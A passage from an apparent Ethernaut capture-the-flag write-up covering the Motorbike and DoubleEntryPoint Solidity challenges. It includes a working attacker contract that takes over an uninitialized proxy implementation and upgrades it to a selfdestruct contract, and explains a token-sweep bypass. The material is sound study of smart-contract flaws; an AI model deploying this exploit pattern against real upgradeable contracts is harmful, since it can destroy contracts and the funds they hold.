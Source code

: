 At first glance, the contract seems pretty legit. The Engine's `initialize()` function has a `initializer` protecting it to be only called once. However, we can find that in Motorbike's contructor, it uses a `delegatecall()` to call the `initialize()` function of the Engine. This means the slot storage for `Initializable` is set for Motorbike instead of Engine, which means the Engine is not initialized at all.

Thus our attack vector is clear:
1. Get Engine's contract address by looking up the `_IMPLEMENTATION_SLOT` slot of Motorbike.
2. Call Engine's `initialize()` function to take over ownership and upgrade it to a selfdestruct contract.

```sol
contract MotorbikeAttacker {
  address implementation;

  constructor(address addr) {
    implementation = addr;
  }

  function takeControl() public {
    bytes memory callData = abi.encodeWithSignature("initialize()");
    (bool success, ) = implementation.call(callData);
    require(success);
  }

  function attack() public {
    address addr = address(new SelfDestructContract());
    bytes memory callData = abi.encodeWithSignature("upgradeToAndCall(address,bytes)", addr, abi.encodeWithSignature("attack()"));
    (bool success, ) = implementation.call(callData);
    require(success);
  }
}

contract SelfDestructContract {
  function attack() external {
    selfdestruct(payable(address(0)));
  }
}
```

### 26. DoubleEntryPoint

This challenge is quite interesting because it requires us to write a alert detector for the buggy contract instead of hacking it. Nonetheless, we still need to spy the exploit first.

The `Vault` has 100 `LegacyToken`s and 100 `DoubleEntryPoint`s, and out goal is to prevent hackers from sweeping its `DoubleEntryPoint`s. We see that inside the `sweekToken()` there is a check that the token should not be `DoubleEntryPoint`. However, if we pass `LegacyToken` to it, it will still transfer `DoubleEntryPoint` since it delegates the transfer to it.

```sol
contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
	// ...
    function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }
}
```